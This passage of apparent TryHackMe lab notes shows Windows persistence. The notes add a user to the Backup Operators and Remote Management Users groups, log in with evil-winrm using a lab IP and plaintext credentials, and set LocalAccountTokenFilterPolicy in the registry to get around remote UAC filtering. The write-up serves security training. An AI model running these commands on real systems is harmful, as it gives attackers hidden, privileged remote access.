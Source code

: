 ## Interesting User Group

We want to look for the following to utilize this method
```powershell
net localgroup "Backup Operators"
net localgroup "Remote Management Users"
```

The THM Lab has you do the following 
```powershell
net localgroup "Backup Operators" thmuser1 /add
&&
net localgroup "Remote Management Users" thmuser1 /add
```

### Evil-WinRM
This flag is a quick start to using Evil-Winrm to persist/escalate
```bash
evil-winrm -i 10.10.226.174 -u thmuser1 -p Password321
```

We then receive the following output when we check what groups the user has
```powershell

*Evil-WinRM* PS C:\Users\thmuser1\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

We now want to allow our user to bypass UAC using WinRM. With the current permission set we should be able to escalate using the GUI, but we want to assume there is not physical/RDP access to the box and only WinRM remotely. We will need to disable the LocalAccountTokenFilter Policy to make this happen for our user. **Note that you will need to either chain bypasses or have an Admin account to make the registry modifications**
```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

